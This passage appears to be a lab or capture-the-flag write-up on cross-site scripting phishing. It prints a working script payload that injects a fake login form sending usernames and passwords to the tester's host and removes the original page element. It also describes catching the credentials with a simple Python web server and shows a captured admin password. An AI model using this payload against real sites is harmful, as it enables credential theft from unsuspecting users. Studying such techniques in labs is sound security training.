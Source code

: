 >Removing the target function input box to get victim to login and provide credentials instead.
>From source code the HTML element we need to remove is the `urlform` id.  

```JavaScript
document.getElementById('urlform').remove();
```  

>Combine above remove functions with single oneline payload:  

```JavaScript
<script>
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.41><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
</script>
<!--
```  

![XSS-Phishing-payload-remove-html-id](/images/XSS-Phishing-payload-remove-html-id.PNG)  

>Using Exploit send phishing link url to victim: `http://10.129.63.83/phishing/send.php`.  

>Once the link send the kali hosted `python3 -m http.server 80` service receive the credentials from victim that clicked on the link and typed their info.

![xss-phishing-server](/images/xss-phishing-server.png)  

```
username=admin&password=p1zd0nt57341myp455
```
